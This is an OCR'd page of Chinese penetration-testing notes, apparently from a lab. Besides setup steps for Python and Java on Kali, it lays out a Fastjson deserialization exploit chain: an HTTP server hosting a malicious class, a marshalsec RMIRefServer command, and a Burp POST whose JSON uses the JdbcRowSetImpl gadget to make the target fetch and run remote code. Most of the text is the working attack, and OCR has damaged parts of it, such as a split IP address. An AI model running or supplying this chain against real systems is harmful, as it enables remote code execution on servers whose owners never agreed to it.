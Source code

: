update-alternatives --install /usr/bin/pythonpython /usr/bin/python3 150 

#### 切换版本

update-alternatives --config python

### Linux配置JRE版本

`vim /etc/profile` 

```
export JAVA_HOME=/home/kali/jdk1.8.0_74
export PATH=$JAVA_HOME/bin:$PATHexport CLASSPATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar 
```

`source /etc/profile`

### 启动HTTP服务器 

`python -m http.server 8089` py3 

`python –m SimpleHTTPServer 8088` py2 

### LDAP服务启动（kali）

`cd /root/vuln/apache` 

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192. 168.31.76:8089/#LinuxTouch" 9473 
```

### Burp发送payload 

```
POST / HTTP/1.1
Host: 192.168.142.128:8090
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/
20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,
image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;
q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 146
{
"b": {
"@type": "com.sun.rowset.JdbcRowSetImpl",
"dataSourceName": "rmi://192.168.142.132:9473/LinuxTouch",
"autoCommit": true
}
}
```
